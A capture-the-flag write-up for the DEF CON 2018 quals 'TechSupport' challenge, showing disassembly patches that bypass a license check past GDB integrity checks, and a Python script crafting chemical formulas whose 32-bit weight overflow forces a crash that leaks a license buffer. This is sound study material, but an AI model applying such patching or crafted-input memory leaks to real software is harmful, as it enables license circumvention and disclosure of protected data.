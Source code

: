 TechSupport  
-----------  
When connecting to the remote server, we get something like:

```  
Thank you for contacting Chemisoft technical support.  
My name is Elen, how can I help you?  
foo  
Is your keyboard properly connected to the computer? yes  
Did you experience similar problems with other software as well? no  
Does the program persists when you are not looking at it? yes  
I heard sometimes bugs are caused by the presence of floppy drives. Do you
have one? no

Alright then - it looks like we ruled out the most common problems.  
So, let me now look at the program for you.  
I am going to use port 3456. Everything ready on your side? yes  
```

Then we get an incoming GDB connection on 3456. We set up a GDB server that
runs the provided `mcalc` binary (a simple molecular weight calculator). It
complains about the invalid license, and the challenge server performs
integrity checks via GDB to protect from patching. Those can be bypassed
either by writing a fake GDB server, or by patching the binary in a way that
is not detected (most of the time):

```  
004016fe  mov     dword [rbp-0x30 {var_38}], 0xabc8eef  
00401705  mov     dword [rbp-0x2c {var_34}], 0xb096bff4  
0040170c  mov     dword [rbp-0x28 {var_30}], 0xe0c54799  
00401713  mov     dword [rbp-0x24 {var_2c}], 0x68cbc732  
0040171a  nop  
(...)  
00401721  nop  
```

Now the helpdesk says the program worked fine. We patch in a `int 3` at
`0x401abb` to make it crash, it says it'll try to reproduce the bug. So we
need to make the original binary crash through the input formula only.

It is possible to force a division by zero. `main` calculates the total weight
as sum of every count by its atom's weight, and if greater than 1000 it calls
the sub at `0x40190b` to print stats about the main element. In the sub, the
total weight (re-calculated) is used as denominator. Because of how the
element-count mapping array in `main` is populated, if the same element is
repeated multiple times, `main` will sum all occurrences, while the sub's
total will only use the rightmost occurrence. So if we find a chemical formula
that overflows the 32-bit sum to zero, then prepend an atom (with weight >
1000) that is already in the formula, we get a weight greater than 1000 in
`main` but equal to zero in the sub, causing a division by zero. Such a
formula can be found as a solution to an LP problem (minimizing used atoms, as
there is a length limit).

Once the remote reproduction crashes, too, the helpdesk prints out the
differences between the two states (our crash and reproduced crash). If a
register is a valid memory address, it shows a dereferenced qword. So plan is:
control a remote register at the crash to dereference the valid license buffer
(which is reasonably the flag).

Before calling the sub, `ecx` contains the total weight as calculated in
`main`, and it is not touched by the sub before the division. We build a
formula so that the right portion overflows to zero (to trigger the crash),
and the left portion uses only atoms already present in the right portion and
sums to the address we want to read (to set `ecx`). License is 16 bytes at
`0x6033d0`, so two crafted formulas later, we have the flag.

Script to generate the formulas:

```python  
#!/usr/bin/python3

import struct  
import pulp

with open('mcalc', 'rb') as f:  
   f.seek(0x30a0)  
   raw_atoms = f.read(8 * 100)

atoms = []  
for i in range(0, len(raw_atoms), 8):  
   raw_atom = raw_atoms[i:i+8]  
   atom = (raw_atom[:4].strip(b'\x00').decode('ascii'), struct.unpack('<I',
raw_atom[4:])[0])  
   atoms.append(atom)

def formula(goal):  
   prob = pulp.LpProblem('Formula Left', pulp.LpMinimize)  
   cnt = pulp.LpVariable.dicts('cnt', range(len(atoms)), lowBound=0,
upBound=999, cat='Integer')  
   used = pulp.LpVariable.dicts('used', range(len(atoms)), cat='Binary')  
   prob += sum(used)  
   prob += sum(atoms[i][1] * cnt[i] for i in range(len(atoms))) == GOAL  
   prob += sum(cnt) > 0  
   for i in range(len(atoms)):  
       prob += used[i] <= cnt[i], 'C_{}_upper'.format(i)  
       prob += cnt[i] <= 10000*used[i], 'C_{}_lower'.format(i)

   prob.solve()

   formula = ''  
   first_part_atoms = []  
   for i in range(len(atoms)):  
       value = int(pulp.value(cnt[i]))  
       if value > 0:  
           formula += '{}{}'.format(atoms[i][0], value if value > 1 else '')  
           first_part_atoms.append(i)

   prob = pulp.LpProblem('Formula Right', pulp.LpMinimize)  
   cnt = pulp.LpVariable.dicts('cnt', range(len(atoms)), lowBound=0,
upBound=999, cat='Integer')  
   used = pulp.LpVariable.dicts('used', range(len(atoms)), cat='Binary')  
   prob += sum(used)  
   prob += sum(atoms[i][1] * cnt[i] for i in range(len(atoms))) == 2**32  
   prob += sum(cnt) > 0  
   for i in range(len(atoms)):  
       prob += used[i] <= cnt[i], 'C_{}_upper'.format(i)  
       prob += cnt[i] <= 10000*used[i], 'C_{}_lower'.format(i)  
   for i in first_part_atoms:  
       prob += used[i] == True

   prob.solve()

   for i in range(len(atoms)):  
       value = int(pulp.value(cnt[i]))  
       if value > 0:  
           formula += '{}{}'.format(atoms[i][0], value if value > 1 else '')  
   return formula

LICENSE_ADDR = 0x6033d0  
LICENSE_QWORDS = 2

for i in range(LICENSE_QWORDS):  
   goal = LICENSE_ADDR + 8*i  
   print('0x{:x}: {}'.format(goal, formula(goal)))  
```  

Original writeup
(https://mhackeroni.it/archive/2018/05/20/defconctfquals-2018-all-
writeups.html#techsupport).